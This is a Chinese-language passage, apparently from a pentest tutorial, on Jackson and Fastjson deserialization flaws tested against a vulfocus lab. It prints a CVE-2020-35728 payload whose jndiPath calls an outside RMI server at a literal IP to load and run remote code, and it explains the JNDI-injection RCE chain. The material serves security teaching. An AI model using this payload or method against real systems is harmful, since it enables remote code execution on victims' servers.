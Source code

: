 这里这个工具还是用  
jndiexploit-1.4-SNAPSHOT.jar 吧  
### 这里使用vulfocus开启一个靶场  
  
注意:黑盒测试中如何判断jackson漏洞,观察Content-Type:application/json,或者返回包中有这种格式,然后可以在body构造json格式发送  
  
只要是json格式就可以测一下,或者xml的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuOVdJhlicw1XraMHFDdV7q7wyD7gPgzjlu0ibsrnTDBib4ZNfXmvoKT1Bg/640?wx_fmt=png&from=appmsg "")  
  
这里访问靶场给的路径抓包或者直接在页面查看也可以  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuMZa205MEDFXYh6iaibSKpicVZIhiaDsDuJ0jrEcyosNGSf1ia3A0TBOvrGQ/640?wx_fmt=png&from=appmsg "")  
  
这里java.lang一串参数为空,也就是可以提交参数的地方,这个conten为空  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuich6nXpRhySTg7IKjLLKNR2vbqhlPS5ibWCtDbs1PDTbhdGchPRpgibQw/640?wx_fmt=png&from=appmsg "")  
  
这里就可以改成post方法,然后加上这个参数  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuZCLmaxvCvwNFguWQibBtCiaaj7HlwsMMnS8eHXiaZB9QBDCqqZCxHxiapQ/640?wx_fmt=png&from=appmsg "")  
  
看这里响应包就明确了确实是jackson的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8turtLjf5R179aMOJdGZg8CWMv2ZmobNSZic8icksp74OpdHpPPA2bYJUQw/640?wx_fmt=png&from=appmsg "")  
  
这里主要还是一个jndi注入,用官方poc即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tusIUQrh4oeFBxoyQ6OBho1pmKjQp9cjFwec8pHaDbmhFicmlesT5ISmA/640?wx_fmt=png&from=appmsg "")  
# 代码执行 (CVE-2020-35728)  
  
FasterXML jackson-databind 2.x < 2.9.10.8  
  
String payload = "[\"com.oracle.wls.shaded.org.apache.xalan.lib.sql.JNDIConnectionPool\",  
  
{\"jndiPath\":\"rmi://47.94.236.117:1099/gtaafz\"}]";  
# 2、J2EE-组件FastJson（JSON）  
  
阿里巴巴公司开源的json解析器，它可以解析JSON格式的字符串，支持将JavaBean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。  
### Fastjson漏洞原理  
  
Fastjson为了读取并判断传入的值是什么类型，增加了autotype机制导致了漏洞产生。由于要获取json数据详细类型，每次都需要读取@type  
，而@type可以指定反序列化任意类调用其set  
，get  
，is  
方法，并且由于反序列化的特性，我们可以通过目标类的set方法自由的设置类的属性值。  
  
也就是说我们需要准备rmi服务和web服务,就是我们的jndi注入工具会帮我们构造好恶意语句,这类工具本身会成为一个服务器,讲rmi恶意语句注入到lookup方法中,那么受害者JNDI接口就会指向我们的rmi服务器,JNDI接口从我们构造的web服务器远程加载恶意代码并且执行,从而造成了RCE.  
  
JNDI本身也是个目录类服务,支持很多服务,使用了这些服务就有可能造成JNDI注入攻击  
### 实战问题:  
  